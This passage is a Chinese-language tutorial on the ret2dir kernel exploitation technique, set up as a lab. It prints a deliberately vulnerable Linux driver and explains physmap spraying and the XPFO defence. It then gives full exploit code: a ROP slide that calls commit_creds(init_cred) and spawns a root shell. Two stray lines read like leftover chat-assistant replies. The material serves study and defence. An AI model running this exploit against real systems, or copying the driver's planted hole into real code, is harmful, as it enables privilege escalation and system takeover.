

# 【pwn4kernel】Kernel ret2dir技术分析

## 1. 测试环境

**测试版本**：Linux-5.10.112 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.10.112/01/bzImage)

笔者测试的内核版本是 `Linux (none) 5.10.112 #1 SMP Mon Dec 29 21:46:24 CST 2025 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_SLAB_FREELIST_RANDOM` 、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_MEMCG`和`CONFIG_HARDENED_USERCOPY`选项。开启`CONFIG_BINFMT_MISC`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.10.112/01/.config)。

**保护机制**：SMEP/SMAP/KPTI

**测试驱动程序**：笔者基于**MINI-LCTF2022 - kgadget** 实现了一个专用于辅助测试的内核驱动模块。该模块遵循Linux内核模块架构，在加载后动态创建`/dev/kgadget`设备节点，从而为用户态的测试程序提供了一个可控的、直接的内核交互通道。该驱动作为构建完整漏洞利用链的核心组件之一，为后续的漏洞验证、利用技术开发以及相关安全分析工作，提供了不可或缺的实验环境与底层系统支撑。

驱动源码如下：

```c
/**
 * Copyright (c) 2025 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on MINI-LCTF2022 - kgadget
#include "linux/export.h"
#include "linux/printk.h"
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/fs.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/sched/task_stack.h>
#include <linux/uaccess.h>
#include <linux/version.h>

static unsigned int major;
static struct class *kgadget_class;
static struct cdev kgadget_cdev;

static int kgadget_open(struct inode *inode, struct file *filp)
{
	pr_info("[kgadget:] Device open.\n");
	return 0;
}

static int kgadget_release(struct inode *inode, struct file *filp)
{
	pr_info("[kgadget:] Device release.\n");
	return 0;
}

static ssize_t kgadget_read(struct file *filp, char __user *buf, size_t count,
			    loff_t *offset)
{
	pr_info
	    ("[kgadget:] Function has not completed because I'm a pigeon!\n");
	return 0;
}

static ssize_t kgadget_write(struct file *filp, const char __user *buf,
			     size_t count, loff_t *offset)
{
	pr_info
	    ("[kgadget:] Function has not completed because I'm a pigeon!\n");
	return count;
}

static long kgadget_ioctl(struct file *file, unsigned int cmd,
			  unsigned long arg)
{
	struct pt_regs *regs;
	unsigned long dumpy;
	typedef void (*kgadget_func_t)(void);
	kgadget_func_t func;
	unsigned long kernel_func_ptr = *(unsigned long *)arg;

	if (cmd != 114514) {
		pr_err("[kgadget:] Invalid command!\n");
		return -ENOTTY;
	}

	pr_info("[kgadget:] Your kgadget ptr is: %lx at %lx.\n",
		kernel_func_ptr, arg);
	pr_info("[kgadget:] To prevent that you cheating on pt_regs, "
		"only r9 and r8 can be used.");
	regs = task_pt_regs(current);
	if (!regs) {
		pr_err("[kgadget:] Failed to get pt_regs!\n");
		return -EFAULT;
	}

	dumpy = 0x4847464544434241;
	regs->ax = dumpy;	// RAX
	regs->bx = dumpy;	// RBX
	regs->cx = dumpy;	// RCX
	regs->dx = dumpy;	// RDX
	regs->si = dumpy;	// RSI
	regs->di = dumpy;	// RDI
	regs->bp = dumpy;	// RBP
	regs->r10 = dumpy;	// R10
	regs->r11 = dumpy;	// R11
	regs->r12 = dumpy;	// R12
	regs->r13 = dumpy;	// R13
	regs->r14 = dumpy;	// R14
	regs->r15 = dumpy;	// R15
	regs->sp = dumpy;	// RSP
	regs->ip = dumpy;	// RIP

	pr_info("[kgadget:] Executing kgadget now.\n");
	func = (kgadget_func_t) kernel_func_ptr;
	func();
	return 0;
}

struct file_operations kgadget_fops = {
	.owner = THIS_MODULE,
	.open = kgadget_open,
	.release = kgadget_release,
	.read = kgadget_read,
	.write = kgadget_write,
	.unlocked_ioctl = kgadget_ioctl,
};

static int __init init_kgadget(void)
{
	struct device *kgadget_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "kgadget");
	if (error < 0) {
		pr_err("[kgadget:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[kgadget:] kgadget major number = %d.\n", major);

	kgadget_class = class_create(THIS_MODULE, "kgadget_class");
	if (IS_ERR(kgadget_class)) {
		pr_err("[kgadget:] Error creating kgadget class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(kgadget_class);
	}

	cdev_init(&kgadget_cdev, &kgadget_fops);
	kgadget_cdev.owner = THIS_MODULE;
	cdev_add(&kgadget_cdev, devt, 1);
	kgadget_device =
	    device_create(kgadget_class, NULL, devt, NULL, "kgadget");
	if (IS_ERR(kgadget_device)) {
		pr_err("[kgadget:] Error creating kgadget device!\n");
		class_destroy(kgadget_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[kgadget:] kgadget module loaded.\n");
	return 0;
}

static void __exit exit_kgadget(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(kgadget_class, MKDEV(major, 0));
	cdev_del(&kgadget_cdev);
	class_destroy(kgadget_class);
	pr_info("[kgadget:] kgadget module unloaded.\n");
}

module_init(init_kgadget);
module_exit(exit_kgadget);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

该驱动模块通过一个经过精心构造的`ioctl`命令，实现了一个非典型的、条件严苛的漏洞模型。其核心机制与利用挑战可分解如下：

### 2-1. 受限的交互接口

该模块虽定义了完整的字符设备操作集，但仅有一个接口具备实际功能：

- **占位函数**：`kgadget_open`, `kgadget_release`, `kgadget_read`, `kgadget_write` 均无实际逻辑，仅为满足驱动框架的形式化实现。
- **唯一入口**：**`kgadget_ioctl`** 是用户空间能够触发内核代码执行的**唯一有效路径**。

### 2-2. 核心漏洞原语

`kgadget_ioctl`函数仅处理命令值 **`114514`**。其执行流程构成了一个独特的内核漏洞原语：

1.  **函数指针调用**：
    - 将用户传入的参数 `arg` 直接解释为 `typedef void (*kgadget_func_t)(void);` 类型的函数指针。
    - 在函数末尾，内核将**直接跳转执行**此指针指向的地址。

2.  **寄存器上下文污染**：
    - 在上述跳转发生**之前**，驱动会主动篡改内核栈上的 `pt_regs` 结构（该系统调用发生时保存的用户态寄存器上下文）。
    - **污染操作**：将 `pt_regs` 中除 **`R8`** 和 **`R9`** 外的所有通用寄存器，覆写为固定值 **`0x4847464544434241`**。
    - **幸存寄存器**：仅有 **`R8`** 与 **`R9`** 的值（来自用户空间调用`ioctl`时的参数传递）得以保留，并随系统调用返回恢复至用户态。

### 2-3. 故意引入的利用约束

此设计旨在构建一个高度受限的漏洞利用沙箱，极大地提升了利用复杂度：

- **传统ROP链的瓦解**：由于绝大多数通用寄存器在返回用户态前被预设常量覆盖，无法依赖它们来传递参数或链式调用常规的ROP gadget，使得直接构造传统的面向返回编程利用链**变得不可行**。
- **极其有限的初始控制**：整个漏洞利用的成败，完全取决于对 **`R8`** 和 **`R9`** 这两个“幸存”寄存器的操控。所有后续的利用载荷部署、内存地址计算及提权操作，都必须以这两个寄存器为起点进行构建。

### 2-4. 总结

该漏洞并非一个常见的、可自由控制执行流的缺陷，而是一个**被故意施加了严格约束的利用挑战**。它将利用场景从常规的、拥有较多控制权的ROP构造，转变为在一个**寄存器上下文被大规模污染、控制权极度稀缺**的恶劣环境下，如何巧妙利用仅有的两个寄存器作为“种子”，逐步重建控制并最终完成权限提升的**高阶攻防课题**。

## 3. ret2dir 技术详解

**ret2dir（Return-to-Direct-Mapped Memory）** 技术由哥伦比亚大学的研究人员在 2014 年的 USENIX Security 会议上首次提出论文 **[《ret2dir: Rethinking Kernel Isolation》](https://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)**。它揭示了一个关键的现代操作系统设计矛盾：内核为追求极致性能而采用的**物理内存直接映射机制**，与其所依赖的**虚拟地址空间隔离**安全假设之间存在根本性冲突。该技术表明，通过利用这一设计固有的“隐式共享”特性，可以系统性地绕过所有基于边界检查的内核防护。

### 3-1. 核心矛盾

操作系统通常将内核与用户进程置于共享的虚拟地址空间中以提升交互效率。为防止内核误入用户空间，引入了 SMEP、SMAP、PXN 等硬件特性及 KERNEXEC、UDEREF 等软件方案。然而，如论文所指出的，这些防护均基于一个前提：内核与用户数据位于不同的虚拟地址区间。ret2dir 的核心洞见在于，Linux 内核中存在的 **`physmap`** 区域打破了这个逻辑边界， **在物理内存层面重新建立了内核与用户数据的连接**，使得上述防护在检查虚拟地址边界时“失效”。

### 3-2. 原理基石

`physmap` 是内核虚拟地址空间中一片**连续、静态的区域，用于线性、直接地映射全部或部分物理内存**。其存在的主要目的是让 `kmalloc` 等内核动态内存分配器无需修改页表即可快速访问任意物理页，从而避免 TLB 刷新开销，并保证分配的物理连续性以满足 DMA 等需求。

不同架构下 `physmap` 的特性差异显著，直接影响技术实现细节：

| 架构                | 起始地址 (PHYS_OFFSET) | 映射大小 | 典型权限                     | 备注                                           |
| :------------------ | :--------------------- | :------- | :--------------------------- | :--------------------------------------------- |
| **x86 (3G/1G)**     | 0xC0000000             | ~891 MB  | RW                           | 仅映射部分物理内存（取决于内核空间大小）。     |
| **x86-64**          | 0xFFFF880000000000     | 64 TB    | RW (现代内核) / RWX (旧内核) | 映射全部物理内存，现代内核已将其设为非可执行。 |
| **AArch32 (3G/1G)** | 0xC0000000             | ~760 MB  | RWX                          | 仅映射部分物理内存。                           |
| **AArch64**         | 0xFFFFFFC000000000     | 256 GB   | RWX                          | 映射全部物理内存。                             |

由此产生一个根本现象：**任何分配给用户进程的物理页，其内容会同时拥有两个虚拟地址别名**：一个在用户进程空间，另一个在 `physmap` 中。后者地址可通过固定公式计算：
`SYN(uaddr) = PHYS_OFFSET + (PFN(uaddr) << PAGE_SHIFT) + offset`

其中，`PFN(uaddr)` 是用户地址 `uaddr` 所在页的**物理页帧号**。获取或覆盖 `PFN` 是实现该技术的关键。

根据您的要求，并参考原始论文《ret2dir: Rethinking Kernel Isolation》第五章（“Locating Synonyms”）的内容，现对“3-3. 技术实现”中两种方法的细节进行补充和丰富，特别是关于 `PFN_MAX` 与 `PFN_MIN` 的计算，以及相关的技术细节。

### 3-3. 技术实现

**ret2dir** 的完整技术链条涉及从部署到执行的多个环节，其核心在于将一次看似“跨界”的访问，转化为一次完全发生在内核地址空间“境内”的合法操作。以下流程图基于论文的描述，清晰地展示了这一过程：



为使上述链条成立，必须解决“如何找到用户载荷在 `physmap` 中的镜像地址”这一核心问题。论文提出了两种系统性的方法：

#### 3-3-1. Leaking PFNs

- **原理**：利用 Linux 内核默认提供的调试接口 `/proc/<pid>/pagemap` 直接查询物理映射信息。该接口旨在帮助调试，在论文撰写时于主流发行版中默认启用。
- **操作与计算**：利用进程打开自身的 `/proc/self/pagemap` 文件。对于一个用户空间虚拟地址 `uaddr`，其对应的 PFN 信息位于文件偏移 `(uaddr / PAGE_SIZE) * sizeof(uint64_t)` 处。读取此 64 位值，若第 63 位为 1，则表示页面在物理内存中，第 0-54 位即为**物理页帧号 (PFN)**。
- **镜像地址计算**：获得 `PFN(uaddr)` 后，其在 `physmap` 中的镜像地址 `SYN(uaddr)` 通过固定公式计算：
  `SYN(uaddr) = PHYS_OFFSET + PAGE_SIZE * (PFN(uaddr) - PFN_MIN)`
    - `PHYS_OFFSET`: 架构相关的 `physmap` 起始虚拟地址（已知常量）。
    - `PFN_MIN`: 系统物理内存的起始页帧号。在许多架构（如 x86）上为 0，但在某些 ARM 开发板上可能非零（例如物理内存起始于 `0x60000000`，则 `PFN_MIN = 0x60000`）。
- **处理部分映射（32位系统）**：在 32 位系统上，`physmap` 可能只映射了部分物理内存（例如 x86 默认仅映射约 891MB）。设 `physmap` 映射的最后一个页帧号为 `PFN_MAX`。如果计算出的 `PFN(uaddr)` 大于 `PFN_MAX`，则其镜像不存在于 `physmap` 中。此时，需通过制造内存压力（例如，大量分配内存），迫使内核的伙伴分配器（Buddy Allocator）从已直接映射的 `ZONE_NORMAL` 区域（其 PFN 范围在 0 到 `PFN_MAX` 之间）分配页帧，从而确保获得的页帧在 `physmap` 中有镜像。
- **特点**：**精确、可靠**，是首选方法。

#### 3-3-2. Physmap Spraying

- **原理**：当无法直接获取 PFN（例如，`/proc/pid/pagemap` 被禁用）时，通过耗尽物理内存，使利用载荷占据绝大部分物理页，从而随机选择的 `physmap` 地址有高概率指向该载荷。
- **操作**：利用进程反复调用 `mmap` 和 `mlock` 分配并锁定物理内存，将恶意载荷“喷洒”到每一个新分配的页面中。同时，通过后台线程频繁访问（“加热”）这些页面，模拟 `mlock` 效果，以防止它们被交换出内存，因为 Linux 的页面换出策略基于 LRU（最近最少使用）。
- **概率计算**：设利用进程占据 `N` 个物理页，`physmap` 区域总共映射了从 `PFN_MIN` 到 `PFN_MAX` 的物理页帧。则随机选取一个 `physmap` 地址指向利用载荷的概率 `P` 为：
  `P = N / (PFN_MAX - PFN_MIN)`
    - **`PFN_MAX - PFN_MIN` 的确定**：此值代表 `physmap` 区域直接映射的物理页帧总数。
        - 在 **x86-64 和 AArch64** 上，`physmap` 通常映射全部物理内存，因此 `PFN_MAX - PFN_MIN` 等于系统总物理页帧数。
        - 在 **32 位系统**（如 x86, AArch32）上，`physmap` 大小有限（见原理基石中的表）。`PFN_MAX` 由 `physmap` 的虚拟内存大小决定。例如，在 x86 默认 3G/1G 分割下，`physmap` 约 891MB，则 `PFN_MAX = PFN_MIN + (891MB / PAGE_SIZE)`。论文通过生成“内存签名”来排除 `physmap` 中一些永远不会分配给用户空间的保留页帧（如 BIOS 数据区、内核代码区），从而进一步减少潜在的目标页帧数 `(PFN_MAX - PFN_MIN)`，提高概率 `P`。
- **效果**：论文实验表明，在制造内存压力后，**成功率可达 96%**。在 32 位系统中，内存压力还会迫使内核从已映射的 `ZONE_NORMAL` 分配页帧，确保了所获页帧在 `physmap` 中的存在性。

### 3-4. 绕过防护

论文详细阐述了如何将上述方法应用于具体场景，以绕过不同类型的防护：

- **绕过 SMAP/UDEREF**：篡改一个内核数据指针 `kdptr`。假设通过信息查询法，获知用户空间伪造的 `cred` 结构位于 PFN 0x770。在 x86 系统上，其 `physmap` 镜像地址为 `0xC0000000 + 0x770*4096 = 0xC0770000`。将 `kdptr` 覆盖为 `0xC0770000` 而非原来的用户空间地址。内核后续解引用时，访问的是内核空间地址，因此 SMAP/UDEREF 不会触发。

- **绕过 SMEP/PXN/KERNEXEC**：篡改一个内核函数指针 `kfptr`。在 `physmap` 可执行（如旧 x86-64 或 ARM）时，直接将 `kfptr` 指向 shellcode 在 `physmap` 中的镜像地址即可。若 `physmap` 不可执行（如现代 x86-64），则需在 `physmap` 中部署 **ROP 链**，并将 `kfptr` 指向一个内核内的**栈枢轴 gadget**（如 `xchg %rax, %rsp; ret`），该 gadget 会将内核栈指向 `physmap` 中的 ROP 链，从而执行提权代码。

### 3-5. 防御方案

为从根本上消除 ret2dir 所利用的隐式共享，论文设计并实现了 **独占页帧所有权 (XPFO)** 方案。

- **核心设计**：确保一个物理页帧在同一时刻，**仅能被内核或用户空间中的一方映射**。当页帧分配给用户空间时，XPFO 立即解除其在 `physmap` 中的映射；当页帧被内核回收时，XPFO 先清空其内容，再将其映射回 `physmap`。
- **关键实现**：
    1.  扩展 `struct page`，增加 `xpfo_flags` 标志位（如 `Tainted` 表示页帧属于用户空间）。
    2.  在 Buddy 分配器路径中，根据分配目标（用户/内核）设置或清除标志，并执行映射/解除映射操作。
    3.  在 `kmap/kunmap` 路径中处理临时映射需求。
    4.  采用**单条目 TLB 无效化**和**避免重复清零页面**等优化，将性能开销降至最低。
- **性能开销**：经广泛测试（Apache， PostgreSQL， 内核编译等），XPFO 引入的**平均运行时开销 < 3%**，实现了安全与效率的优异平衡。

### 3-6. 总结与影响

ret2dir 技术深刻地指出，操作系统内核的**安全隔离设计必须延伸至物理内存层面**。`physmap` 这类为性能而生的“捷径”，在本质上削弱了虚拟地址空间隔离的有效性。该研究论文推动了内核安全社区的反思，促使类似 XPFO 的防御思路被广泛讨论。它标志着内核漏洞利用与防御的博弈进入了一个更深入的层次——从虚拟地址的边界检查，深入到物理内存的资源管理。

## 4. 实战演练

exploit核心代码如下：

```c
#define COMMI_CREDS 0xffffffff8107093b
#define INIT_CRED 0xffffffff8244c980
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a00df0

#define POP_RDI_RET 0xffffffff8100177b
#define POP_RSP_RET 0xffffffff810004f0
#define ADD_RSP_0XF0_POP_RBX_RET 0xffffffff81577275
#define RET 0xffffffff810001fc

size_t pop_rsp_ret = POP_RSP_RET;

#define SPRAY_SIZE 0x2c00
typedef void (*kgadget_func_t)(void);
kgadget_func_t func;
size_t *physmap_spray_arr[SPRAY_SIZE];
size_t page_size;
size_t try_hit;
int dev_fd, flag_fd;
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status() {
  asm volatile("mov user_cs, cs;"
               "mov user_ss, ss;"
               "mov user_sp, rsp;"
               "pushf;"
               "pop user_rflags;");
  log.info("Status has been saved.");
}

void get_root_shell(void) {
  char flag[0x100] = {0};
  if (getuid()) {
    log.error("Failed to get the root!");
    exit(-1);
  }

  log.success("Successful to get the root. Execve root shell now...");
  flag_fd = open("/root/flag", O_RDONLY);
  if (flag_fd < 0) {
    log.error("failed to open /root/flag!");
    exit(-1);
  }
  read(flag_fd, flag, sizeof(flag) - 1);
  log.success("Got flag: %s", flag);
  system("/bin/sh");
}

void build_rop_chain(size_t *rop) {
  int idx = 0;

  // gadget to trigger pt_regs and for slide
  for (; idx < (page_size / 8 - 0x30); idx++)
    rop[idx] = ADD_RSP_0XF0_POP_RBX_RET;

  // more normal slide code
  for (; idx < (page_size / 8 - 0x10); idx++)
    rop[idx] = RET;

  // rop chain
  rop[idx++] = POP_RDI_RET;
  rop[idx++] = INIT_CRED;
  rop[idx++] = COMMI_CREDS;
  rop[idx++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
  rop[idx++] = *(size_t *)"BinRacer";
  rop[idx++] = *(size_t *)"BinRacer";
  rop[idx++] = (size_t)get_root_shell;
  rop[idx++] = user_cs;
  rop[idx++] = user_rflags;
  rop[idx++] = user_sp + 8;
  rop[idx++] = user_ss;
}

int main() {
  save_status();

  dev_fd = open("/dev/kgadget", O_RDWR);
  if (dev_fd < 0) {
    log.error("failed to open /dev/kgadget!");
    exit(-1);
  }

  page_size = sysconf(_SC_PAGESIZE);

  // construct per-page rop chain
  physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
                              MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  build_rop_chain(physmap_spray_arr[0]);

  // spray physmap, so that we can easily hit one of them
  log.info("Spraying physmap...");
  for (int i = 1; i < SPRAY_SIZE; i++) {
    physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
                                MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (!physmap_spray_arr[i]) {
      log.error("oom for physmap spray!");
      exit(-1);
    }
    memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
  }

  log.info("trigger physmap one_gadget...");

  try_hit = 0xffff888000000000 + SPRAY_SIZE * 2 * 0x1000;
  __asm__("mov r15,   0xbeefdead;"
          "mov r14,   0x11111111;"
          "mov r13,   0x22222222;"
          "mov r12,   0x33333333;"
          "mov rbp,   0x44444444;"
          "mov rbx,   0x55555555;"
          "mov r11,   0x66666666;"
          "mov r10,   0x77777777;"
          "mov r9,    pop_rsp_ret;" // stack migration again
          "mov r8,    try_hit;"
          "mov rax,   0x10;"
          "mov rcx,   0xaaaaaaaa;"
          "mov rdx,   try_hit;"
          "mov rsi,   114514;"
          "mov rdi,   dev_fd;"
          "syscall");
  return 0;
}
```

### 4-1. 计算 SPRAY_SIZE

在 **ret2dir** 内存利用技术中，内存喷射（Spraying）的目的是使特定数据占据尽可能多的物理页框，从而在 physmap 区域选择地址时，提高目标命中的概率。为最大化效率，需要精确计算可用于喷射的物理页框号（PFN）范围，即排除所有不可能分配给用户进程的保留内存区域。

通过 root 权限查询 `/proc/iomem` 获得系统物理内存布局：

```bash
/home/ctf # cat /proc/iomem
00000000-00000fff : Reserved
00001000-0009fbff : System RAM
0009fc00-0009ffff : Reserved
000a0000-000bffff : PCI Bus 0000:00
000c0000-000c99ff : Video ROM
000ca000-000cadff : Adapter ROM
000cb000-000cb5ff : Adapter ROM
000f0000-000fffff : Reserved
  000f0000-000fffff : System ROM
00100000-0ffdffff : System RAM
  01000000-01c03456 : Kernel code
  01e00000-022cbfff : Kernel rodata
  02400000-026a0e3f : Kernel data
  02af5000-02bfffff : Kernel bss
0ffe0000-0fffffff : Reserved
10000000-febfffff : PCI Bus 0000:00
  fd000000-fdffffff : 0000:00:02.0
  feb00000-feb7ffff : 0000:00:03.0
  feb80000-feb9ffff : 0000:00:03.0
    feb80000-feb9ffff : e1000
  febb0000-febb0fff : 0000:00:02.0
fec00000-fec003ff : IOAPIC 0
fed00000-fed003ff : HPET 0
  fed00000-fed003ff : PNP0103:00
fee00000-fee00fff : Local APIC
fffc0000-ffffffff : Reserved
100000000-17fffffff : PCI Bus 0000:00
/home/ctf #
```

根据 `/proc/iomem` 的输出，计算过程如下：

#### 4-1-1. 提取System RAM区域

首先识别标记为 **System RAM** 的连续物理地址块，这些是系统可用物理内存的基础范围：

- **块 1**：`0x00001000 - 0x0009fbff`（低端内存）
- **块 2**：`0x00100000 - 0x0ffdffff`（主内存）

#### 4-1-2. 排除保留子区域

System RAM 内部存在被内核镜像和硬件保留的区域，这些区域不会被分配给用户进程，需从可用范围中剔除。

块 2（`0x00100000 - 0x0ffdffff`）中包含以下内核保留子区域：

- `0x01000000 - 0x01c03456` (Kernel code)
- `0x01e00000 - 0x022cbfff` (Kernel rodata)
- `0x02400000 - 0x026a0e3f` (Kernel data)
- `0x02af5000 - 0x02bfffff` (Kernel bss)

为简化处理，将内核占用的连续范围合并为 **`0x01000000 - 0x02bfffff`**（从 kernel code 起始到 kernel bss 结束）。因此，块 2 剔除内核占用后，剩余部分为 **`0x02c00000 - 0x0ffdffff`**。

块 1 是完整的低端可用 RAM，无需进一步分割。

因此，实际可用于用户进程分配的物理内存（即可用于堆喷射的目标）为两个不连续的地址区间：

1. **低端可用 RAM**：`0x00001000 - 0x0009fbff`
2. **高端可用 RAM**：`0x02c00000 - 0x0ffdffff`

#### 4-1-3. 转换为页框号（PFN）范围

页框号是物理地址按页大小的归一化表示，计算公式为：

$$
\text{PFN} = \frac{\text{物理地址}}{\text{PAGE_SIZE}}
$$

在 x86_64 架构下，页大小（PAGE_SIZE）通常为 4096 字节（0x1000），即右移 12 位。

- **低端可用 RAM 的 PFN 范围**：
    - 起始：`0x00001000 >> 12 = 0x1`
    - 结束：`0x0009fbff >> 12 = 0x9f`（因为 `0x9fbff / 0x1000 = 0x9f`）
    - **范围：`0x1` 至 `0x9f`**

- **高端可用 RAM 的 PFN 范围**：
    - 起始：`0x02c00000 >> 12 = 0x2c00`
    - 结束：`0x0ffdffff >> 12 = 0xffdf`（因为 `0xffdffff / 0x1000 = 0xffdf`）
    - **范围：`0x2c00` 至 `0xffdf`**

#### 4-1-4. 确定 SPRAY_SIZE

在 ret2dir 堆喷射中，**SPRAY_SIZE** 表示需要尝试占用的物理内存总量，理论上应尽可能覆盖上述所有可用 PFN 范围对应的物理页框。因此，可计算总可用页框数（即可选 target_pfn 的总数）：

- 低端范围页框数：`0x9f - 0x1 + 1 = 159`（十进制）
- 高端范围页框数：`0xffdf - 0x2c00 + 1 = 53,120`（十进制）
- **总计可用页框数**：159 + 53,120 = **53,279 个页框**

按每页 4KB 计算，总可用物理内存约为：

$$
53,279 \times 4 \text{KB} \approx 208.12 \text{MB}
$$

这正是系统中实际可分配给用户进程的物理内存总量（基于 `/proc/iomem` 的分析）。

#### 4-1-5. 技术实现中的应用

在实施 ret2dir 堆喷射时，通常需要：

1. 通过大量分配内存（如使用 `mmap` 和 `mlock`）并填充特定数据，试图占据从 PFN `0x1` 到 `0x9f` 以及 `0x2c00` 到 `0xffdf` 范围内的物理页框。
2. 在喷射完成后，从这两个 PFN 范围内随机选择一个值作为 `target_pfn`。
3. 利用 x86_64 下 physmap 的固定偏移 `PHYS_OFFSET`（通常为 `0xffff888000000000`），计算最终的目标地址：

$$
\text{target_addr} = \text{PHYS_OFFSET} + (\text{target_pfn} \times \text{PAGE_SIZE})
$$

通过将目标选择严格限制在可分配的 PFN 范围内，可以避免指向硬件保留区或内核镜像等无效区域，从而显著提高命中率。在系统物理内存较小（如本例中可用 RAM 约 208MB）的情况下，通过密集堆喷射覆盖大部分可用页框，可获得较高的命中概率。

### 4-2. 构造ROP链

在**ret2dir**技术中，当利用内存喷射（Spraying）将利用载荷（shellcode或ROP链）大量“喷洒”到物理内存后，面临一个关键问题：我们无法精确控制内核执行流最终会跳转到喷射页面的哪个具体偏移地址。为了确保无论内核从页面的哪个位置开始执行，都能“滑行”到预先设定好的、有效的ROP链起点，需要构造一种具备“滑动”能力的ROP布局。你提供的代码正是实现这一目标的典型方法。

#### 4-2-1. 通用堆喷射ROP链原理

其核心思想是：**用大量无实际操作、仅用于转移控制流的指令（Gadgets）填充页面的绝大部分空间，形成一个“滑梯”（Slide），确保内核执行流无论落在“滑梯”的哪个位置，都能稳定、可控地滑行到页面末端那个精心构造的、用于实现最终目的（如提权）的ROP链起点。**

这种设计极大地提高了利用的鲁棒性，适应了堆喷射技术内在的地址不确定性。

#### 4-2-2. 代码详解与参数选择

以下对代码进行逐段解析，并重点解释 `0x30` 与 `0x10` 这两个关键参数的设计考量，并修正关于 `ADD_RSP_0XF0_POP_RBX_RET` 工作方式的描述。

```c
int idx = 0;
// 阶段一：填充栈迁移与主滑动区
for (; idx < (page_size / 8 - 0x30); idx++)
  rop[idx] = ADD_RSP_0XF0_POP_RBX_RET;

// 阶段二：填充次级滑动区
for (; idx < (page_size / 8 - 0x10); idx++)
  rop[idx] = RET;

// 阶段三：放置实际的提权ROP链
rop[idx++] = POP_RDI_RET;
rop[idx++] = INIT_CRED;
rop[idx++] = COMMIT_CREDS;
rop[idx++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
// ... 后续为恢复用户态上下文所需的寄存器值
```

**关键参数解释：`0x30` 与 `0x10`**

这两个值是以**8字节（一个QWORD）为基本单位**进行计算的，对应的是ROP数组的索引偏移量。

- **`page_size / 8`**：表示一个内存页（例如4096字节）可以容纳的64位地址（Gadget地址）的数量，即512个。
- **`- 0x30`**：`0x30`（十进制48）表示保留页面末尾的 **48 \* 8 = 384字节** 空间。这部分空间**不**用于最初的“滑动”，而是留给后续的次级滑动区（`RET`）和最终的提权ROP链。选择`0x30`是为了确保为后续关键步骤预留充足且对齐的空间。
- **`- 0x10`**：`0x10`（十进制16）表示保留页面末尾的 **16 \* 8 = 128字节** 空间。这部分空间**专门用于存放最终的提权ROP链**。选择`0x10`是基于对提权链所需Gadget数量的估算，确保能容纳 `POP_RDI_RET`、`COMMIT_CREDS`地址、`SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE`地址以及恢复用户态所需的若干个寄存器值。

**各阶段作用分析**

- **第一阶段 (`ADD_RSP_0XF0_POP_RBX_RET`)**：
    - **目的**：进行**粗粒度滑动与栈迁移**。
    - **原理**：这个Gadget通常由三条指令组成：`ADD RSP, 0xF0`、`POP RBX`、`RET`。其执行流程如下：
        1.  `ADD RSP, 0xF0`：将栈指针（RSP）增加 `0xF0`（十进制240）字节。**这是最关键的一步**，它使得RSP在栈上向前“跳跃”一大段距离，跳过当前指令之后、目标位置之前的大量无用或未知数据。
        2.  `POP RBX`：从新的栈顶弹出一个值（这个值是布局在内存中的、我们预先放置的下一个Gadget地址）放入RBX寄存器。这个操作**同时会使RSP再增加8字节**。因此，执行完`POP RBX`后，RSP总共比执行Gadget前增加了 `0xF0 + 0x8 = 0xF8` 字节。
        3.  `RET`：从当前RSP指向的位置（即新的栈顶）弹出下一个地址并跳转执行。由于RSP已经被大幅度向前调整，这个地址有很大概率指向我们布局在页面靠后区域的Gadget（例如第二阶段的`RET`滑梯）。
    - **为何有效**：假设内核执行流随机落入这个由数百个`ADD_RSP_0XF0_POP_RBX_RET`组成的区域，每执行一个这样的Gadget，RSP就会向前跳跃约 `0xF8` 字节。经过连续几次这样的跳跃，RSP有很大概率会被调整到靠近页面末端的、我们预留的特定区域。

- **第二阶段 (`RET`)**：
    - **目的**：进行**细粒度滑动**。
